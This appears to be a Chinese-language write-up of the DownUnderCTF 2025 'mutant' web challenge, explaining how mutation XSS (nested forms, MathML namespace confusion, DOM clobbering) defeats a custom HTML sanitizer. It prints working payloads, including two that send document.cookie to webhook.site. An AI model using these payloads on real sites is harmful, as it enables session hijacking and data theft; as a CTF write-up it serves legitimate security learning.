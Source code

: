 ##### tags: `DownUnderCTF_2025`
# DownUnderCTF 2025 WEB : mutant

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/S1Ar6O5Ile.png)

## <span class="red">解題過程 (After Event)</span>

1. **這(應該)是一題 XSS 題，原始碼在圖片下方。這題的出題者寫了很多 `console.log` 幫助我們在解題時可以觀察 browser 解析時具體的結果是甚麼**

- <img src="https://hackmd.io/_uploads/BynmTf08xl.png" style="max-width:80%;">

    ```javascript=
    const inp = new URLSearchParams(location.search).get("input");

    // Reporting stuff
    reportbtn.addEventListener("click", () => {
      fetch("/report", {
        method: "POST",
        body: inp,
      })
        .then((r) => alert("Successfully reported"))
        .catch(alert);
    });

    // Challenge
    mytextarea.value = inp;

    console.log("Original", inp);

    const t = document.createElement("template");
    t.innerHTML = inp; // inject payload into template.innerHTML

    console.log("After injecting into template", t.innerHTML);

    const nodes = [t.content];
    while (nodes.length > 0) {
      const n = nodes.pop();

      console.log("Parsed element", n.outerHTML);

      if (n.attributes) {
        while (n.attributes.length > 0) {
          n.removeAttribute(n.attributes[0].name);
        }
      }

      // Fix XSS reported by our bug bounty community
      if (
        n.nodeName !== "#document-fragment" &&
        (n.nodeName.length === 6 || n.nodeName.length === 8)
      ) {
        n.parentNode.removeChild(n);
        continue;
      }

      for (let i = n.children.length - 1; i >= 0; i--) {
        nodes.push(n.children[i]);
      }
    }

    console.log("After sanitization", t.innerHTML);

    myoutputdebug.innerText = t.innerHTML;
    myoutput.innerHTML = t.innerHTML;

    console.log("Final", myoutput.innerHTML);

    ```

&emsp;

2. **結合這一題的題目名稱 `mutant` ，這題應該是在考 `XSS mutation` ，這個漏洞產生的原因是 HTML 字串在 render 時行為會被 browser 改變。首先先用最常見的 `XSS payload : <script>alert('XSS')</script>` 試試看會發生甚麼，測試後可以在 console 看到輸出**

- ![image](https://hackmd.io/_uploads/SkkueQRUle.png)

- ![image](https://hackmd.io/_uploads/BJQuZQCLxg.png)

    - **在 `const nodes = [t.content];` 時， `template.content` 的結果是 `DocumentFragment` ，這也是為何<span class="red">第一次 `while loop` 內 `Parsed element` 會顯示 `undefined`</span> (因為 `DocumentFragment` 本身沒有 `outerHTML` 這個屬性)**
    - **`DocumentFragment` 文件： https://developer.mozilla.org/en-US/docs/Web/API/DocumentFragment**
    - ![image](https://hackmd.io/_uploads/Bk9YPQCLxx.png)
    - **第二次 loop 則是因為 `n.nodeName.length === 6` (script 字母的長度)而被刪除， `<script>` 本身沒有任何屬性，所以 `n.attributes.length = 0` 跳出第一個 `if` 檢查 (`n.attributes = NamedNodeMap` ，所以 `if (n.attributes)` 為真)**

&emsp;

3. **接著去找一些相關資料，會發現有一些古老(？)的 payload 可以先嘗試看看，像是 `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">` ，一樣可以回到 console 觀察，發現確實所有的標籤都從 `<svg>` 內跳出來了，但是問題出在 `src` 這個 `attribute` 被 `n.removeAttribute` 移除掉了最後只剩下 `<img>` 這個 `label`**

- **Mutation XSS : https://aszx87410.github.io/beyond-xss/ch2/mutation-xss/**

- ![image](https://hackmd.io/_uploads/HydUgVAUge.png)

&emsp;

4. **也就是說現在確定了可以做到 `(mutation) xss` ，這時就要用上另一個方法來繞過遍歷 `node` 清除 `attribute` 的 `sanitizer` —— `nested form (巢狀 form) + namespace (命名空間)`**

- **payload ：`<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>`**

- **先利用 `nested form` 造成 `<mglyph>` 是 `<mtext>` 的直接子節點(因為第二個 form 在 browser 的 html 規範是不被允許的，所以會直接被移除)，然後再利用如果 `<mglyph>` 是 `<mtext>` 的直接子節點會造成 `<mglyph>` 和後續的子節點都在 `MathML namespace` 而非 `html namespace` 之中**
    - **舉例：假設有一段 `nested form` 為 `<form id="outer"><div></form><form id="inner"><input>` ， `DOM tree` 為以下圖片的樣子**
    - **這涉及到 `<form>` 建立時使用了 `form element pointer` ，只有當這個指標是 `null` 時 `<form>` 才會建立，而 `</form>` 會將指標指向 `null`**
    - ![image](https://hackmd.io/_uploads/ryLAIRkwxg.png)
    - **但是當 `HTML parser` 自動修復這段 `nested form` 之後，整段內容就會變成 `<form id="outer"><div><form id="inner"><input></form></div></form>` ，最後解析成 `DOM tree` 時第二個 `<form>` 就會 loss 掉**
    - ![image](https://hackmd.io/_uploads/SJjHU0ywlg.png)

- **因此 `foreign content` 的性質可以拿來做 exploit 。以 payload 舉例，正常在 `html namespace` 中的 `<style>` 只能包含 `text` 、不具有子元素 `(descendants)` 且 `HTML` 實體 `(entities)` 不會被解碼 `(decode)`；但是如果今天 `<style>` 在 `MathML namespace` 之中， `<style>` 就可以擁有子元素且 `HTML` 實體會被解碼**

- **所以原先 payload 會產生這樣的 `DOM tree` (看起來 `alert` 位於 style 內，無害)：**
    - ![image](https://hackmd.io/_uploads/SyM53Tyvll.png)

- **但是當再次解析 `(reparsing)` 時，就會變成：**
    - ![image](https://hackmd.io/_uploads/HJF-6a1vex.png)

&emsp;

5. **理論上是這樣沒錯，但是還記得我們不能用`長度 = 6 or 8`的元素嗎？也就是說我們不能用 `<mglyph>` ，但是我們還能用另一個也會有同樣效果的元素 `<malignmark> (長度為 10)`**

- ![image](https://hackmd.io/_uploads/rkVeCaJvxg.png)

- **所以 payload 變成： `<form><math><mtext></form><form><malignmark><style></math><img src onerror=alert(1)>`**

- <img src="https://hackmd.io/_uploads/SyY4yCJPee.png" style="max-width:80%;">

- **最後在把 payload 中的 `alert(1)` 換成 `fetch("//webhook.site/?flag="+document.cookie)` 就成功拿到 flag 了**

- ![image](https://hackmd.io/_uploads/B1MgLOA8xl.png)

- **flag🚩 :`DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}`**

- ![image](https://hackmd.io/_uploads/S1kk3W0Igg.png)

## <span class="red">心得</span>

1. **其他成功的方法還有：**
    - **利用`<annotation-xml encoding="text/html">` 是 `HTML integration points` ，且 `<math>` 底下本來就可以放 `annotation-xml` 不需要用 `nested form` 接起來：**
        - **`<math><annotation-xml encoding="text/html"><style><img src onerror=alert(document.cookie)>`**
    
    - **`<form id=x tabindex=0 onfocus='fetch("https://webhook.site/aa?c="+document.cookie)' autofocus><input id=attributes>Click me`**
    
    - **`<form><input id=children><img src=x onerror=alert(document.cookie)></form>`**

&emsp;

2. **甚至還有非預期解 (對 `n.attribute` 做 `DOM Clobbering`)：**
    - **`<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id="attributes"/></form>`**
